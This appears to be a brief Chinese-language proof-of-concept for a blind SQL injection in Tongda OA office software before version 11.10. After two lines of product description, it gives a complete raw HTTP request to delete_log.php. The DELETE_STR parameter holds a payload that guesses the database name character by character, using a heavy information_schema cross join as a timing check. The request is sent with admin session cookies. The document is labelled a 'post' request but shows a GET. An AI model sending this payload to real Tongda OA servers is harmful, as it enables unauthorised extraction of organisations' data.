 ### **描述-影响范围**

通达OA

是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是适合各个行业用户的综合管理办公平台

本次范围：通达OA版本11.10之前

### **POC** 

post请求包

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.232.137:8098
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=1u7tsd1cpgp9qvco726smb50h5; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=779f3f46
Upgrade-Insecure-Requests: 1
```

